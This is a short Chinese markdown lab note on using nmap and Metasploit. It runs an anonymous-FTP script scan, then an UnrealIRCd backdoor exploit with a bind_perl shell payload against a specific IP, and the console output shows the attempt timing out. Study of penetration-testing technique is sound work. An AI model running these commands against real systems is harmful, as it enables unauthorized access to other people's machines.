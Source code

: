 ### 整合nmap & metasploit小試身手
* https://ithelp.ithome.com.tw/articles/10225010
##
### 1. 使用 nmap 的script找 <target-ip> (Windows主機)是否有和 FTP 匿名存取有關的漏洞
* sudo nmap [目標主機] --script=ftp-anon -p 21
* sudo apt-get install ftp
* ftp [目標主機]  (user: anonymous, pass: email-address)
### 2. 找 Unreal 的漏洞 <mIRC Chat (The IRC port is usually 6667)>
* sudo nmap -p 6667 <target ip>
* msfconsole
```
 msf6> search unreal
 msf6> use exploit/unix/irc/unreal_ircd_3281_backdoor
 msf6> exploit(unix/irc/unreal_ircd_3281_backdoor) > show options
 
Module options (exploit/unix/irc/unreal_ircd_3281_backdoor):

   Name    Current Setting  Required  Description
   ----    ---------------  --------  -----------
   RHOSTS                   yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT   6667             yes       The target port (TCP)


Exploit target:

   Id  Name
   --  ----
   0   Automatic Target



View the full module info with the info, or info -d command.

msf6 exploit(unix/irc/unreal_ircd_3281_backdoor) > set rhost 140.133.78.164
rhost => 140.133.78.164
msf6 exploit(unix/irc/unreal_ircd_3281_backdoor) > exploit

[-] 140.133.78.164:6667 - Exploit failed: A payload has not been selected.
[*] Exploit completed, but no session was created.
msf6 exploit(unix/irc/unreal_ircd_3281_backdoor) > set payload cmd/unix/bind_perl
payload => cmd/unix/bind_perl
msf6 exploit(unix/irc/unreal_ircd_3281_backdoor) > exploit

[-] 140.133.78.164:6667 - Exploit failed [unreachable]: Rex::ConnectionTimeout The connection with (140.133.78.164:6667) timed out.
[*] Exploit completed, but no session was created.
msf6 exploit(unix/irc/unreal_ircd_3281_backdoor) > 
```
